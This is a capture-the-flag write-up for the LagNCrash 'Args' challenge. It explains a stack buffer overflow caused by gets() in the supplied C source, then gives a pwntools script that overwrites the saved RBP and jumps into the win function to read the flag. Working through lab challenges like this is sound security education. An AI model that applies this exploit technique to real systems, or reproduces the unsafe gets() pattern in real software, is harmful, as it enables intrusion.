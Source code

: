 # Arg
---

### Challenge Description

Specific arguments... Seems easy

nc challenge2.lagncrash.com 10001

[Args.zip](https://github.com/caprinux/LagNCrash/files/6129814/Args.zip)

---

### Solution

So we are given the ELF binary and the source code. Checking the binary, we get:

```
$ pwn checksec argssource

[*] '/media/sf_Kali_Linux/argssource'

    Arch:     amd64-64-little

    RELRO:    Partial RELRO

    Stack:    No canary found

    NX:       NX enabled

    PIE:      No PIE (0x400000)

```

Opening the source code, we get: 

```C
#include <stdio.h>
#include <unistd.h>
int main(int argc, char** argv){
	setvbuf(stdout, NULL, _IONBF, 0);
	vuln();
}

int vuln(void){
	char buf[128];
	gets(buf);
	return 0;
}

int win(long a, long b, long c){
	if(!(a == 0xdeadbeef)) return 1;
	if(!(b == 0xcafebabecafebabe)) return 1;
	if(!(c == 0xd00df00dd00df00d)) return 1;

	char buf[64];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
	printf("Run this on the server.\n");
	exit(0);
	}

	fgets(buf,64,f);
	printf(buf);

	return 0;	
}
```

As you can see, from the checksec, this file does not have a canary unlike Baby, but NX is enabled. 

We go on to read the source code, we see that the executable goes from the main() to the vuln() and takes an input with the gets call, gets call does not limit the number of bytes you can input.

But buffer only holds 128 bytes of input, then it returns, this allows us to buffer overflow.

Furthermore, from the win function, we can see that flag.txt is being read from fopen, and then its copied into buf with fgets, and printed with printf.

Let's further analyse the binary in gdb-gef

We disassemble the win function to see the segments of the fgets fopen printf

```gdb

   0x00000000004007c8 <+87>:	mov    esi,0x4008b4

   0x00000000004007cd <+92>:	mov    edi,0x4008b6

   0x00000000004007d2 <+97>:	call   0x400610 <fopen@plt>

   0x00000000004007d7 <+102>:	mov    QWORD PTR [rbp-0x8],rax

```

As we can see from here, the file path is loaded into fopen, and the file is saved in rax, then rbp-0x8.

```

```gdb
   0x00000000004007f6 <+133>:	mov    rdx,QWORD PTR [rbp-0x8]

   0x00000000004007fa <+137>:	lea    rax,[rbp-0x50]

   0x00000000004007fe <+141>:	mov    esi,0x40

   0x0000000000400803 <+146>:	mov    rdi,rax

   0x0000000000400806 <+149>:	call   0x4005d0 <fgets@plt>

```

Basically, fgets will write the flag into an offset of RBP-0x50

```
   0x000000000040080b <+154>:	lea    rax,[rbp-0x50]

   0x000000000040080f <+158>:	mov    rdi,rax

   0x0000000000400812 <+161>:	mov    eax,0x0

   0x0000000000400817 <+166>:	call   0x4005b0 <printf@plt>

```

And printf will print whatever is in RBP-0x50 which is our flag.

Hence now we know we want to overwrite the previous RBP address to a writeable memory, such that when leave function is passed, our rbp will be our overwritten writeable memory.

However, where can we find writeable memory that we can set our rbp to? We can set our RBP to the uninitialized BSS segment of the memory, which is always writeable.

To obtain the address of the bss segment, we can run the following command

```
$ objdump -x argssource | grep bss
 24 .bss          00000010  0000000000601070  0000000000601070  00001070  2**4

0000000000601070 l    d  .bss	0000000000000000              .bss

0000000000601078 l     O .bss	0000000000000001              completed.6982

0000000000601070 g     O .bss	0000000000000008              stdout@@GLIBC_2.2.5

0000000000601080 g       .bss	0000000000000000              _end

0000000000601070 g       .bss	0000000000000000              __bss_start
```
Here, we get some address of bss functions, but I wasn't sure whether to write to the start or the end. Hence, I trial and error with both __bss_start and _end .

Opening the argssource file with Ghidra, we go to the win function and we can see the address. We skip all the parameter checks and copy the address of the win function right before flag.txt is opened.

win_addr_before_fopen = 0x00000000004007c8

Now that we have everything, we can craft our exploit.

```py
from pwn import *

win_addr_before_fread = 0x00000000004007c8
vuln_offset = 128
bss_segment = 0x0000000000601080

payload = b"A" * vuln_offset + p64(bss_segment) + p64(win_addr_before_fread)
p = remote('challenge2.lagncrash.com', 10001)
p.sendline(payload)
print(p.recv())
```

We obtain the flag.

```
LNC{C5U_H4V3_7H3_GADGETS}
```

_p.s. this was probably not the intended way of solving args but welp_

